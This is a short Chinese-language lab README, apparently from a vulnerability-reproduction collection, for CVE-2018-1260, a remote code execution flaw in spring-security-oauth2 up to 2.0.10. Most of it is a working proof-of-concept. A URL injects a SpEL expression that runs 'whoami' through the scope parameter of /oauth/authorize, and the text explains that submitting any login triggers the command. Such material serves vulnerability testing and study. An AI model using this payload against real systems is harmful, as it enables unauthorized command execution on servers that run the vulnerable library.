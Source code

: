## RCE with spring-security-oauth2【CVE-2018-1260】

测试镜像

* src/spring-security-oauth2/2.0.10

影响版本

* spring-security-oauth2 <= 2.0.10

参考链接

* [RCE with spring-security-oauth2 分析](https://xz.aliyun.com/t/2330)

Poc

访问url：

```
http://127.0.0.1/oauth/authorize?client_id=client&response_type=code&redirect_uri=http://www.github.com/chybeta&scope=%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22whoami%22%29%7D
```

在返回的登陆页面随意输入账号密码，点击login，触发命令执行
